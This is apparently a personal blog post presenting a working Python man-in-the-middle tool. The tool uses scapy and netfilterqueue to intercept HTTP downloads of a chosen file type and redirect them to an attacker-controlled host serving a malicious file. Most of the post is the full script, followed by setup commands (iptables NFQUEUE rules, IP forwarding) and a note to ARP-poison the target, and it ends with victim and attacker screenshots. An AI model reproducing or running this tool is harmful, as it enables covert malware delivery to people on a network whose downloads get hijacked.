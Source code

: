 ```yaml
---
title: A File Intercept/Replace program
date: 2021-07-10 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to intercept and replace a download to a malicious one.
---
```



<p align="center">
 <img src="https://www.itaintboring.com/wp-content/uploads/2020/12/image-51.png">
</p>


## This is a python script that intercepts an exe or a common file type download and replaces it with a malicious one of choice.

- We modify the response rather than the request, as to modify the request a manual 3-way handshake must be initiated to begin with.
- We check if the sequence number of the request is equal to the acknowledgement number of the response. If so the request corresponds to that particular matching response.
- We modify response using the __HTTP 301 redirect__ to our chosen attacker host.

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet



def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())

        elif scapy_packet[scapy.TCP].sport == 80:
            #print("[+] HTTP Response found")
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")

```


### OUTPUT: 

_Victim:_ 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/File_Interceptor/intercept1.png)

_Attacker:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/File_Interceptor/intercept2.png)
